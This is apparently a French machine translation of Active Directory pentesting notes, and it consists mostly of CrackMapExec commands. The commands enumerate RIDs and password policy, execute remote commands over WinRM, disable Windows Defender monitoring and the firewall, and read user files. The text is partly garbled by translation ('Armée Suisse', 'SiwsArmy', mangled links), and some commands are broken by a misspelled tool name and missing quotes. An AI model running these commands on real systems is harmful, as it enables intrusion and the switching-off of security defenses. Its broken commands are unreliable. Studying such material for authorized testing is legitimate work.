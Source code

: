 
**Armée Suisse CrackMapExec ENUM 2**
 - Enumerate RID : l'identifiant relatif (RID) est un numéro de longueur variable qui est attribué aux objets lors de leur création et devient une partie de l'identifiant de sécurité (SID) de l'objet qui identifie de manière unique un compte ou un groupe au sein d'un domaine.  Le SID de domaine est le même sur un même domaine mais le RID est différent selon l'objet.  Windows crée un RID par défaut dans Active Directory.  Exemple, RID 501 pour l'administrateur, 502 pour le compte par défaut et 503 pour le compte invité.
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p Password12345 --rid-brute` Il montrera également quels sont les groupes, utilisateurs et alias.
 - Énumérer la politique de passwd
   - `crackmapexec smb <ip start>-<ip end> -u ippsec -p Password12345 --pass-pol` <br> <br>

 **Exécution de la commande SiwsArmy CrackMapExec**
 - `crackmapexec winrm <ip> -u ippsec -p Password12345 -x 'whoami'`
 - Là où <ip> ont un accès au domaine local, -x est une ligne de commande, -X un script PowerShell ou une ligne de commande.
 - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'whoami'`
 - Vérifier l'accès de l'administrateur local
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'whoami /groups'`
   - S'il fait partie de BUILTIN\Administrator, il dispose d'un accès administrateur local sur la machine.
   - Donner l'accès aux administrateurs locaux signifie leur donner un contrôle total sur l'ordinateur local.
 - Obtenir l'état de l'ordinateur : comme l'état de l'antivirus, les protections, la protection en temps réel.
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'Get-MpComputerstatus`
 - Si nous sommes un administrateur de domaine, nous pouvons désactiver de telles choses.
 - Désactiver la surveillance
   - `crackmapexc winrm <ip> -u ippsec -p Password12345 -X 'Set-MpPreference -DisableRealtimeMonitoring $true`
 - Désactiver l'antivirus
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'Set-MpPreference -DisableIOAVProtection $true`
 - Vérifiez si ceux-ci sont désactivés ou non
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'Get-MpComputerstatus'`
 - Afficher tous les profils, publics privés, pare-feu
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'netsh advfirewall show allprofiles'`
   - S'ils sont activés, désactivez-les avec
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'netsh advfirewall set allprofiles state off'`
 - Énumérer les répertoires
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'dir C:\Users\ippsec'`  
 - Lire des fichiers
   - `crackmapexec winrm <ip> -u ippsec -p Password12345 -X 'type C:\Users\ippsec\users.txt'`

 ### Les références
 - [TCM Security - Heath Adams](https://academy.tcm-sec.com) (La plupart des contenus)
 - [Les cinq meilleures façons d'obtenir un domaine sur votre réseau interne avant le lancement par Adam Toscher.](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your- réseau-interne-avant-le-déjeuner-édition-2018-82259ab73aaa)
 - [Piratage éthique pratique par TCM Security.](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
 - [Pentesting Active Directory - Équipe rouge par informatique et sécurité.](https://www.youtube.com/watch?v=gSpQMzINB6U&list=PLziMzyAZFGMf8rGjtpV6gYbx5hozUNeSZ)
 - https://www.youtube.com/watch?v=ajOr4pcx6T0
 - https://medium.com/@Shorty420/kerberoasting-9108477279cc
 - https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/
 - https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/
 - https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
 - L'original en Anglais [ici](https://github.com/nirajkharel/AD-Pentesting-Notes/blob/main/README.md)

